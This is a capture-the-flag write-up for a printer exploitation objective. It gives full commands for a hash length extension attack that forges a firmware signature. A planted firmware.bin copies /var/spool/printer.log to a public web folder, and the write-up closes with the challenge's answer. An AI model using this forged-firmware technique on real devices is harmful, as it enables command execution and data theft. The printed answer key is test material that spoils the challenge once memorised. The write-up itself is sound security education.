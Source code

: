 # Objective 7) Printer Exploitation

!!! summary "*Difficulty*: :fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: grey;"}"
    Investigate the stolen <a href="https://printer.kringlecastle.com/">Kringle Castle printer</a>. Get shell access to read the contents of /var/spool/printer.log. What is the name of the last file printed (with a .xlsx extension)? Find Ruby Cyster in Jack's office for help with this objective.


## Hints and Resources

??? hint "Hints provided after helping Ruby Cyster and completing the <a href="../../objectives/O6_Shellcode_Primer">Shellcode Primer</a> Objective"
    **Printer Firmware**<br>
    When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.<br>
    <br>
    **Hash Extension Attacks**<br>
    <a href="https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks">Hash Extension Attacks</a> can be super handy when there's some type of validation to be circumvented.<br>
    <br>
    **Dropping Files**<br>
    Files placed in `/app/lib/public/incoming` will be accessible under <a href="https://printer.kringlecastle.com/incoming/">https://printer.kringlecastle.com/incoming/</a>.

??? hint "Other Resources"
    **JQ - Command line JSON processor**<br>
    <a href="https://stedolan.github.io/jq/">https://stedolan.github.io/jq/</a>

## Setup

To complete this objective we need several additional tools as well as the hash_extender utility referenced in the hints.  For this writeup I am using the Windows Subsystem for Linux with a fresh Ubuntu image to run these, but other environments will work as well.

First, install the various components that will be used
```
sudo apt install git jq make gcc libssl-dev
```

Then, get a copy of the hash_extender tool and compile it
```
git clone https://github.com/iagox86/hash_extender
cd hash_extender
make
```


## Solution

Click on the printer in Jack's Office or use the direct link <a href="https://printer.kringlecastle.com/">https://printer.kringlecastle.com</a>.

Exploring the printer UI we discover that the only portion that is really available to us is the 'Firmware Update' menu item.  On this page we can upload new firmware, apply that uploaded firmware, and download a copy of the existing firmware file.

Download a copy of the firmware file, firmware-export.json.

Inspecting this we find that it is a json file consisting of 4 attributes

- firmware: base64 encoded firmware file
- signature: sha256 signature of the firmware file
- secret_length: 16
- algorithm: SHA256

??? info "Screenshot"
    ![](image1.png)

Export the base64 encoded firmware file and the signature into separate files using the `jq` utility<br>
```
cat firmware-export.json | jq -r ".firmware" > firmware_json_firmware.txt
cat firmware-export.json | jq -r ".signature" > firmware_json_signature.txt
```

No we need to determine what type of file it is, so we decode it and analyze it with the `file` command.
```
cat firmware_json_firmware.txt | base64 -d | file -
```

The result of this tells us that it is a zip file, so we decode it into an appropriately named file and then look to see what is inside it.
```
cat firmware_json_firmware.txt | base64 -d > original_firmware.zip
unzip -l original_firmware.zip
```
??? info "Screenshot"
    ![](image2.png)

The zip file contains a single file named firmware.bin.  Presumably this is the file that the printer will execute when performing a firmware update.  So to exploit the printer we want to have it execute a firmware.bin file containing our commands instead.

To retrieve the contents of the printer log file (/var/spool/log/) one of the hints suggests that if we copy it to /app/lib/public/incoming then we will be able to access it through the web interface.  So, we create a new firmware.bin that will do that and put it into a new zip file.

```
echo 'cp /var/spool/printer.log /app/lib/public/incoming/nutmeg-printer.log' > firmware.bin
zip exploit_firmware.zip firmware.bin
```

Now we need to get the printer to process the exploit_firmware.zip file as if it were legitimate firmware.  But we can't just create a new JSON file with this file instead of the original one because the hash that must accompany it is dependent on a 16 character secret that we do not have access to.

Fortunately for us, a property of zip files, and something that Ruby Cyster mentions upon completion of <a href="../O6_Shellcode_Primer">Objective 6</a>, is that if you concatenate two zip files together then when unzipping only the last one is processed.  

So by using a hash extension attack tool such as hash_extenter we can append the exploit zip file to the original zip file and recompute a new hash that will pass the validation checks.  Then when the printer unzips the contents it will only get our malicious firmware.bin.  The following steps detail this process.

First, get the original and exploit firmware zip files into hex format for input into hash_extender.
```
xxd -p original_firmware.zip | tr -d '\n' > original_firmware_zip.hex
xxd -p exploit_firmware.zip | tr -d '\n' > exploit_firmware_zip.hex
```

Second, run hash extender to generate a new file that appends 'exploit_firmware.zip' to the original 'firmware.zip' and computes a new signature.  The results of this command will be outputted to a file in table format for easier processing in the next step.
```
./hash_extender/hash_extender -d `cat original_firmware_zip.hex` --data-format=hex -s `cat firmware_json_signature.txt` -a `cat exploit_firmware_zip.hex` --append-format=hex -f sha256 -l 16 -table > hash_extender_output.txt
```

Third, extract the signature and new file (in hex format) from the output, then turn the hex of the file back into a binary zip file.
```
awk '{ print $2 }' hash_extender_output.txt > new_signature.txt
awk '{ print $3 }' hash_extender_output.txt > exploit_zip.hex
xxd -p -r exploit_zip.hex > exploit.zip
```

!!! warning
    As of this writing I believe there is a bug in hash_extender that is preventing the secret length from being included as the 2nd field in the table output.  If this bug is resolved then the awk fields being extracted above will likely need to change to $3 and $4.

Finally, we create a new json file using our concatenated exploit zip file and it's signature.
```
echo -n '{"firmware":"' > exploit.json
base64 -w 0 exploit.zip >> exploit.json
echo -n '","signature":"' >> exploit.json
cat new_signature.txt | tr -d '\n' >> exploit.json
echo -n '","secret_length":16,"algorithm":"SHA256"}' >> exploit.json
```

With our exploit.json file in hand, we upload it to the printer, update, then view the printer log file that is copied to the incoming folder when the printer executes our script (in this example: https://printer.kringlecastle.com/incoming/nutmeg-printer.log).


## Completion

!!! success "Answer"
    Troll_Pay_Chart.xlsx

